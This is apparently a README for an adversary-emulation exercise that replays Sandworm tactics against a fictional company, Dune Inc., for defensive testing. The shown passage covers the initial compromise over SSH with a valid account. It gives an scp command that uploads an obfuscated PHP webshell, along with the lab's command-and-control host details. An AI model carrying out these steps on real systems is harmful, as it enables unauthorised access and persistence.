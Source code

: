 # Scenario Overview

This scenario emulates Sandworm compromising a notional organization (Dune Inc.) with the goal of destroying data.

This scenario emulates Sandworm TTPs based on several malware specimens either used by or associated with the Sandworm actors:

1. P.A.S. Webshell
2. Exaramel (Linux and Windows variants)
3. NotPetya

![Sandworm Protections Diagram](/Resources/images/Sandworm%20Protections.drawio.png)

---

## Test 7 (Steps 11-14)

### Step 11 - Initial Compromise

:microphone: `voice track`

Sandworm logs into patient zero via SSH using Valid Accounts for the user fherbert.

It is unknown how Sandworm obtained the credentials (perhaps an SSH password guessing attack, or zero day exploit).

Sandworm then deploys a PHP webshell for persistent access.

```
Compromised user info:

User:	fherbert

File write: /tmp/search.php, /var/www/html/search.php

System: 10.0.1.5 / caladan

C2:	192.168.0.4 connects to 10.0.1.5:443 via HTTPS (self signed cert)
```

### :biohazard: Procedures

Upload P.A.S. webshell to caladan/10.0.1.5 as `/tmp/search.php`.

```bash
# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

# Sandworm Team has used webshells including P.A.S. Webshell to maintain access to victim networks.

scp sandworm/Resources/phpWebShell/obfuscated_webShell.php fherbert@10.0.1.5:/tmp/search.php
```

Password:
